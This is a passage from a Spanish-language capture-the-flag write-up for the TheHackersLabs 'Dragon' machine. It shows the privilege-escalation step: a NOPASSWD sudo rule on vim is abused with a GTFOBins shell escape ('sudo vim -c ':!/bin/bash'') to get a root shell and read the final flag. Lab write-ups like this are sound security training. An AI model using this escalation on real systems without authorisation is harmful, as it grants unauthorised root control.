 
<h2 id="VIM">Abuso de Permisos Sudoers Sobre Binario vim para Escalar Privilegios</h2>

Veamos qué privilegios tiene nuestro usuario:
```bash
dragon@TheHackersLabs-Dragon:~$ sudo -l
Matching Defaults entries for dragon on TheHackersLabs-Dragon:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User dragon may run the following commands on TheHackersLabs-Dragon:
    (ALL) NOPASSWD: /usr/bin/vim
```
Podemos usar el **binario vim** como **Root**.

Busquemos en la **guía de GTFOBins** una forma de escalar privilegios con este binario:
* <a href="https://gtfobins.github.io/gtfobins/vim/" target="_blank">GTFOBins: vim</a>

Usaremos el siguiente comando:

<p align="center">
<img src="/assets/images/THL-writeup-dragon/Captura4.png">
</p>

Probémoslo:
```bash
dragon@TheHackersLabs-Dragon:~$ sudo vim -c ':!/bin/bash'

root@TheHackersLabs-Dragon:/home/dragon# whoami
root
```
Esto prácticamente nos automatizó la aplicación de **Shell Escape** y nos convierte en **Root**.

Obtengamos la última flag:
```bash
root@TheHackersLabs-Dragon:/home/dragon# cd /root
root@TheHackersLabs-Dragon:~# ls
congrats.txt  root.txt
root@TheHackersLabs-Dragon:~# cat root.txt
...
```
